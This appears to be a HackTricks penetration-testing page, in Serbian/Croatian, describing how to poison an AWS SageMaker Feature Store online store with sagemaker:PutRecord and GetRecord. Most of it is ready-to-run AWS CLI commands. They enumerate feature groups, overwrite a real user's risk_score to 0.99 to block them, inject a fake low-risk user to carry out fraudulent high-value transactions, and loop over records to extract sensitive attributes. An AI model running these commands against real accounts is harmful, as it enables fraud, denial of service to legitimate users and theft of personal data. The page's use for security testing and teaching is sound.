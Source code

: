 # SageMaker Feature Store online store poisoning

{{#include ../../../../banners/hacktricks-training.md}}

Iskoristiti `sagemaker:PutRecord` na Feature Group-u sa omogućenim OnlineStore da prepišete žive vrednosti feature-a koje koristi online inference. U kombinaciji sa `sagemaker:GetRecord`, napadač može pročitati osetljive feature-e. Ovo ne zahteva pristup modelima ili endpoint-ima.

## Zahtevi
- Dozvole: `sagemaker:ListFeatureGroups`, `sagemaker:DescribeFeatureGroup`, `sagemaker:PutRecord`, `sagemaker:GetRecord`
- Cilj: Feature Group sa omogućenim OnlineStore (obično podržava real-time inference)
- Složenost: **LOW** - Jednostavne AWS CLI komande, nije potrebna manipulacija modelima

## Koraci

### Reconnaissance

1) Nabrojite Feature Groups sa omogućenim OnlineStore
```bash
REGION=${REGION:-us-east-1}
aws sagemaker list-feature-groups \
--region $REGION \
--query "FeatureGroupSummaries[?OnlineStoreConfig!=null].[FeatureGroupName,CreationTime]" \
--output table
```
2) Opišite ciljnu Feature Group da biste razumeli njenu šemu
```bash
FG=<feature-group-name>
aws sagemaker describe-feature-group \
--region $REGION \
--feature-group-name "$FG"
```
Obratite pažnju na `RecordIdentifierFeatureName`, `EventTimeFeatureName` i sve definicije feature-a. Oni su potrebni za kreiranje važećih zapisa.

### Scenarij napada 1: Data Poisoning (Overwrite Existing Records)

1) Pročitajte trenutni legitimni zapis
```bash
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string user-001
```
2) Zatrovati zapis zlonamernim vrednostima koristeći inline `--record` parametar
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Example: Change risk_score from 0.15 to 0.99 to block a legitimate user
aws sagemaker-featurestore-runtime put-record \
--region $REGION \
--feature-group-name "$FG" \
--record "[
{\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-001\"},
{\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
{\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.99\"},
{\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"125.50\"},
{\"FeatureName\": \"account_status\", \"ValueAsString\": \"POISONED\"}
]" \
--target-stores OnlineStore
```
3) Proverite zatrovane podatke
```bash
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string user-001
```
**Uticaj**: ML modeli koji koriste ovu feature sada će videti `risk_score=0.99` za legitimnog korisnika, potencijalno blokirajući njihove transakcije ili usluge.

### Scenarij napada 2: Maliciozna injekcija podataka (Kreiranje lažnih zapisa)

Injektujte potpuno nove zapise sa manipulisanim atributima kako biste izbegli sigurnosne kontrole:
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Create fake user with artificially low risk to perform fraudulent transactions
aws sagemaker-featurestore-runtime put-record \
--region $REGION \
--feature-group-name "$FG" \
--record "[
{\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-999\"},
{\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
{\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.01\"},
{\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"999999.99\"},
{\"FeatureName\": \"account_status\", \"ValueAsString\": \"approved\"}
]" \
--target-stores OnlineStore
```
Potvrdite injection:
```bash
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string user-999
```
**Uticaj**: Napadač kreira lažni identitet sa niskom ocenom rizika (0.01) koji može da izvede visokovredne prevarantske transakcije bez aktiviranja sistema za otkrivanje prevara.

### Scenarij napada 3: Eksfiltracija osetljivih podataka

Pročitajte više zapisa da biste izvukli poverljive atribute i profilisali ponašanje modela:
```bash
# Exfiltrate data for known users
for USER_ID in user-001 user-002 user-003 user-999; do
echo "Exfiltrating data for ${USER_ID}:"
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string ${USER_ID}
done
```
**Uticaj**: Poverljive karakteristike (ocene rizika, obrasci transakcija, lični podaci) izložene napadaču.

### Kreiranje test/demo Feature Group-a (opciono)

Ako treba da kreirate test Feature Group:
```bash
REGION=${REGION:-us-east-1}
FG=$(aws sagemaker list-feature-groups --region $REGION --query "FeatureGroupSummaries[?OnlineStoreConfig!=null]|[0].FeatureGroupName" --output text)
if [ -z "$FG" -o "$FG" = "None" ]; then
ACC=$(aws sts get-caller-identity --query Account --output text)
FG=test-fg-$ACC-$(date +%s)
ROLE_ARN=$(aws iam get-role --role-name AmazonSageMaker-ExecutionRole --query Role.Arn --output text 2>/dev/null || echo arn:aws:iam::$ACC:role/service-role/AmazonSageMaker-ExecutionRole)

aws sagemaker create-feature-group \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-feature-name entity_id \
--event-time-feature-name event_time \
--feature-definitions "[
{\"FeatureName\":\"entity_id\",\"FeatureType\":\"String\"},
{\"FeatureName\":\"event_time\",\"FeatureType\":\"String\"},
{\"FeatureName\":\"risk_score\",\"FeatureType\":\"Fractional\"},
{\"FeatureName\":\"transaction_amount\",\"FeatureType\":\"Fractional\"},
{\"FeatureName\":\"account_status\",\"FeatureType\":\"String\"}
]" \
--online-store-config "{\"EnableOnlineStore\":true}" \
--role-arn "$ROLE_ARN"

echo "Waiting for feature group to be in Created state..."
for i in $(seq 1 40); do
ST=$(aws sagemaker describe-feature-group --region $REGION --feature-group-name "$FG" --query FeatureGroupStatus --output text || true)
echo "$ST"; [ "$ST" = "Created" ] && break; sleep 15
done
fi

echo "Feature Group ready: $FG"
```
## References
- [AWS SageMaker Feature Store Documentation](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store.html)
- [Feature Store Security Best Practices](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store-security.html)
